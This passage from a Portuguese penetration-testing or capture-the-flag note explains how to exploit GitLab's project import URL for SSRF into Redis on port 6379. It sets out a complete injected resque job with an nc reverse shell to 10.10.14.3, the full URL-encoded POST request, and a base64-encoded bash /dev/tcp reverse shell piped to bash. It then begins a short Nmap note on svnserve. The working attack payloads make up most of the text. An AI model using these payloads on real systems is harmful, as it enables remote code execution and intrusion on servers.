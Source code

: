     O protocolo de comunicação do Redis permite enviar dados em ASCII. Isso significa que podemos enviar esta solicitação HTTP POST diretamente para o servidor Redis. Para fazer isso, temos que adicionar a porta na qual o Redis está sendo executado, que é a porta 6379. Em seguida, vamos adicionar o payload encontrado anteriormente no repositório do GitHub.
    
    ```
     multi
     sadd resque:gitlab:queues system_hook_push
     lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":
    [\"class_eval\",\"open(\'| nc 10.10.14.3 4444 -e
    /bin/bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc564117
    3e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
     exec
     exec
     exec
     exec
    ```
    
    O código deve ser colocado entre o final do URLque foi colocado, neste caso `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test`, e o sinal `&`.
    
    ```
    utf8=%E2%9C%93&authenticity_token=5pZx%2BJP2zd3cVS6E3P0H2gfjZg3qtuvcQnXkhw0V7ePuYk7B5k4
    %2Bm7PSGrGs1FdRPsLLs3zSgq1c5Eb2JHlCpQ%3D%3D&project%5Bimport_url%5D=git://[0:0:0:0:0:ff
    ff:127.0.0.1]:6379/test
     multi
     sadd resque:gitlab:queues system_hook_push
     lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":
    [\"class_eval\",\"open(\'| nc 10.10.14.3 4444 -e
    /bin/bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc564117
    3e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
     exec
     exec
     exec
     exec
    &project%5Bci_cd_only%5D=false&project%5Bname%5D=test1&project%5Bnamespace_id%5D=4&proj
    ect%5Bpath%5D=test1&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
    ```
    
    `echo -n YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzMvMTIzNCAgMD4mMSc= | base64 -d | bash` 
    
    Nota importante: Ao gerar o código em base64, deve se ter em atenção, não deixar nenhum caracter especial, exemplo `+` , para tentar tirar isto, é necessário acrescentar espaços entre os argumentos do comando. Não esquecer no final dar um espaço. 
    
- SVNserve
    
    Nmap
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2020.png)
    
    Encontramos 3 portos abertos. 80-http, 3690-svnserve e 5985-http.
    
    Site normal 
    